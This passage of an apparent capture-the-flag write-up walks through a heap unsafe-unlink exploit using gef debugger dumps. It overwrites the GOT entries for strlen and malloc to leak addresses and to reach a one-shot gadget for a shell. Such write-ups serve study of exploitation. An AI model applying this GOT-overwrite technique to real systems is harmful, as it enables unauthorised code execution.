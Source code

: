 First we start off with the memory post unlink attack:

```
gef➤  x/10g 0x602140
0x602140: 0x0 0x24fc020
0x602150: 0x24fc4e0 0x24fc590
0x602160: 0x602148  0x0
0x602170: 0x24fc7a0 0x0
0x602180: 0x0 0x0
```

We will use the `0x602148` to write the got entry addresses for `strlen` and `malloc`:

```
gef➤  x/10g 0x602140
0x602140: 0x0 0x602030
0x602150: 0x602070  0x24fc590
0x602160: 0x602148  0x0
0x602170: 0x24fc7a0 0x0
0x602180: 0x0 0x0
gef➤  x/g 0x602030
0x602030 <strlen@got.plt>:  0x400786
gef➤  x/g 0x602070
0x602070 <malloc@got.plt>:  0x7f42c19d9130
```

Next we will write the plt address of `puts` to the got entry for `strlen` and get the infoleak:

```
gef➤  x/10g 0x602140
0x602140: 0x0 0x602030
0x602150: 0x602070  0x24fc590
0x602160: 0x602148  0x0
0x602170: 0x24fc7a0 0x0
0x602180: 0x0 0x0
gef➤  x/g 0x602030
0x602030 <strlen@got.plt>:  0x400760
gef➤  x/i 0x400760
   0x400760 <puts@plt>: jmp    QWORD PTR [rip+0x2018ba]        # 0x602020 <puts@got.plt>
```

Finally we will just overwrite the got entry for `malloc` with a oneshot gadget, and then just call malloc to get a shell:

```
gef➤  x/10g 0x602140
0x602140: 0x0000000000000000  0x0000000000602030
0x602150: 0x0000000000602070  0x00000000024fc590
0x602160: 0x0000000000602148  0x0000000000000000
0x602170: 0x00000000024fc7a0  0x0000000000000000
0x602180: 0x0000000000000000  0x0000000000000000
gef➤  x/g 0x0000000000602070
0x602070 <malloc@got.plt>:  0x00007f42c1a452a4
gef➤  x/i 0x00007f42c1a452a4
```
